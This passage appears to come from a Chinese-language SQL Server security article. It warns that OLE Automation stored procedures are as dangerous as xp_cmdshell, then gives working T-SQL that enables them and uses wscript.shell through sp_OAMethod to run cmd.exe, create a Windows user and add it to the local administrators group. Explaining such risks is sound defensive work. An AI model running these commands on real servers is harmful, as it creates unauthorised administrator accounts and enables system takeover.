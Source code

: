 与OLE相关的一系列存储过程：sp_OACreate，sp_OADestroy，sp_OAGetErrorInfo，sp_OAGetProperty，sp_OAMethod，sp_OASetProperty，sp_OAStop。这些存储过程和xp_cmdshell危险等级一样高。我们也必须严加防范。以下仅以sp_OACreate和sp_OAMethod配合使用为例说明。  

### 启用OLE相关存储过程

要使用OLE相关存储过程，必须先启用对OLE存储过程的使用，方法如下：  

```LANG
USE master  
GO  
EXEC sys.sp_configure 'show advanced options', 1  
RECONFIGURE WITH OVERRIDE
GO  
 
EXEC sys.sp_configure 'Ole Automation Procedures', 1  
RECONFIGURE WITH OVERRIDE  

GO  
EXEC sp_configure 'show advanced options', 0  
GO

```

### sp_OAmethod创建用户

使用OLE存储过程，创建Windows的用户。  

```LANG
DECLARE 
	@shell INT 
;
EXEC master.sys.sp_oacreate 
	'wscript.shell',
	@shell OUTPUT 
;

EXEC master.sys.sp_oamethod 
	@shell,
	'run',
	null,
	'C:\Windows\System32\cmd.exe /c net user IAmTestUser IAmTestUser@1 /add'
;

```

### sp_OAmethod授权Admin

使用OLE存储过程，将刚才创建Windows的用户添加到local Administrator组中，便有了系统超级用户的所有权限。  

```LANG
DECLARE 
	@id INT 
;
EXEC master.sys.sp_oacreate 
	'wscript.shell',
	@id OUTPUT 
;

EXEC master.sys.sp_oamethod 
	@id,
	'run',
	null,
	'C:\Windows\System32\cmd.exe /c net localgroup administrators IAmTestUser /add'
;
GO

```